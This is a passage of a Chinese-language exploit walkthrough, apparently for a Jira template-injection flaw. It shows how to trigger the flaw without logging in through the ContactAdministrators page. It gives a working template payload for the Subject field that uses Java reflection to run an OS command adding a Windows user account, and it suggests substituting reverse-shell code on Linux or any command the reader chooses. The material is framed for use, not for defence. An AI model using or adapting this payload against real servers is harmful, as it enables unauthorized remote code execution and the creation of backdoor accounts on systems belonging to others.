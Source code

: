 **4.未登陆状态下触发漏洞**

访问

http://www.0-sec.org:8080/secure/ContactAdministrators!default.jspa

![image](img/ccef8761cb4990be8386fef1880eec20.png)

在Subject填入payload，注意，我这里环境是windows机器，所以可以添加账号观察，Linux可以用反弹shell的代码等等,反正换成自己想执行的命令。

```
$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('net user bk abc@ABC123 /add').waitFor() 
```

![image](img/7025b34058ceff56a1b353b70300944e.png)
